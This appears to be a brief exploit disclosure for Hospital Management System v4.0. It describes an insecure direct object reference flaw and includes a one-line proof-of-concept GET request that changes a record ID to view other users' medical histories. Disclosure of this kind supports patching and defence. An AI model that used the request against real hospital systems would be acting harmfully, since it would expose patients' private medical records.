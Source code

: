 # Exploit Title: Hospital Management System v4.0 - Insecure Direct Object Reference(IDOR)
## Date: 1/4/2024
## Vendor Homepage: https://phpgurukul.com/hospital-management-system-in-php
## Tested on: Debian Linux, Apache, Mysql
## Vendor: PHPNews
## Version: v4.0
## Exploit Description:
## Hospital Management System v4.0 suffers from IDOR - Broken Access Control Vulnerability allowing attacker user to look up the other user's medical history(horizontal privilege escalation).

## -----------------------------------------------POC-------------------------------------------------------------------
```
GET /hospital/hms/view-medhistory.php?viewid=3(CHANGE HERE) HTTP/1.1
...
```





